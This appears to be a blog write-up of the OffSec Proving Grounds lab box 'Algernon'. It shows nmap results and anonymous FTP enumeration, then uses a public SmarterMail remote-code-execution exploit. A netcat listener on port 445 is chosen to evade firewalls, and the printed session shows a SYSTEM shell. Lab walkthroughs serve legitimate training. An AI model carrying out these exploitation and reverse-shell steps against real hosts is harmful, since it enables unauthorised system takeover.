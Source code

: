 ```yaml
---
layout: post
title: PG | Algernon
subtitle: Algernon sure is a clever one.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 07:42:49 UTC
Nmap scan report for 192.168.182.65
Host is up, received user-set (0.015s latency).
Scanned at 2023-10-16 07:42:49 EDT for 559s
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 10-16-23  04:41AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
9998/tcp  open  http          syn-ack Microsoft IIS httpd 10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
|_http-server-header: Microsoft-IIS/10.0
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Mon, 16 Oct 2023 11:51:53 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 9D7294CAAB5C2DF4CD916F53653714D5
17001/tcp open  remoting      syn-ack MS .NET Remoting services
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-16T11:51:56
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18291/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31424/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 42389/udp): CLEAN (Timeout)
|   Check 4 (port 5332/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 559.07 seconds
~~~

# Service Enumeration

## FTP (TCP/21)

The target is hosting an FTP server that allows anonymous connections, after downloading all available files there were a series of log files, however after searching through them they did not grant us any useful information to further us.

~~~shell
┌──(kali㉿kali)-[~/…/Algernon/results/192.168.175.65/scans]
└─$ wget -m --no-passive ftp://anonymous:anonymous@192.168.182.65 
~~~

![Algernon](/assets/img/AlgernonPG(1).png)

## HTTP (TCP/80)

An Apache web server is running on port 80

![Algernon](/assets/img/AlgernonPG(2).png)

I ran a sub-directory fuzzing scan and checked the webpages source code, but neither revealed anything of use

## HTTP (TCP/9998)

A SmarterMail web mail server is being hosted on port 9998 on the target machine where we are prompted for login credentials, the default SmarterMail credentials admin:admin failed

![Algernon](/assets/img/AlgernonPG(3).png)

I searched for exploits for SmarterMail and found a Remote Code Execution (RCE) exploit

![Algernon](/assets/img/AlgernonPG(4).png)

I copied the exploit to my current directory, then changed the target IP and local IP/Port for the shell (I used port 445 to avoid firewall restrictions as it is used for SMB)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/49216.py .
~~~

![Algernon](/assets/img/AlgernonPG(5).png)

I started a netcat listener on port 445

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~

I ran the exploit and recieved a root (system) shell!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.65] 49952
whoami
nt authority\system
PS C:\Windows\system32> 
~~~